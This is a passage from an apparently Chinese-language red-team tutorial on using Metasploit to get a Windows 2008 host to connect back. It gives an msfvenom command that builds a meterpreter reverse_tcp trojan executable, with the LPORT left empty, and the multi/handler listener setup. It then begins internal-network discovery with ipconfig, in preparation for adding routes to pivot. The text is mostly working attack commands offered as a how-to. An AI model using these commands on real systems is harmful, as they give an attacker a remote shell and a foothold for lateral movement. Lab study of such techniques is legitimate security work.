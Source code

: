 # 3. MSF上线

`MSF`这里其实和`CS`基本上是一致的，但是我们还是进行演示一下，但是不会演示到底。

## 3.1. Windows 2008上线

这里直接使用一个反向连接木马让`Windows 2008`进行上线。

```
生成木马：
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT= -f exe > 2008.exe
设置监听：
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.10.20
set LPORT 1111
run
```

![image-20230518140815642](assets/HEosaukfzlYD1Q9.png)

### 3.1.1. 判断内网

我们通过输入`ipconfig`获取到该主机还存在一个网卡信息，但是我们是无法通信的，所以需要借用`MSF`中的添加路由。

```
ipconfig
```

![image-20230518141218088](assets/akA8IpiXvmEB6rG.png)
